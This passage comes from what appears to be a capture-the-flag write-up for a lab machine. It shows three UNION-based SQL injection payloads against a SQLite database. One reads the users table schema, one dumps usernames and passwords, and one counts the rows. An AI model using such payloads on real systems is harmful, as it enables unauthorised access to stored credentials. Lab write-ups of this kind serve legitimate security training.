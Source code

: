 then lets find table name : `users`, to find that you need this command : 

```
razor' UNION ALL SELECT sql,2,3,4 FROM sqlite_master WHERE tbl_name= 'users' AND type = 'table'--
```
![Background](/assets/thm-madeye-castle/sql_4.png)

Now we find the contents of all the column including username, password, admin, and notes . but the problem is we can only see 1 username and 1 password, and I tried selecting everything from table using * and the result was an error

```
razor' UNION ALL SELECT name,2,3,password FROM users--
```
![Background](/assets/thm-madeye-castle/sql_5.png)

but if we check the columns of table we have 40 colomns which is there are a lot of user and password 

```
razor'UNION ALL SELECT COUNT(name),2,3,COUNT(password) FROM users--
```
![Background](/assets/thm-madeye-castle/sql_6.png)
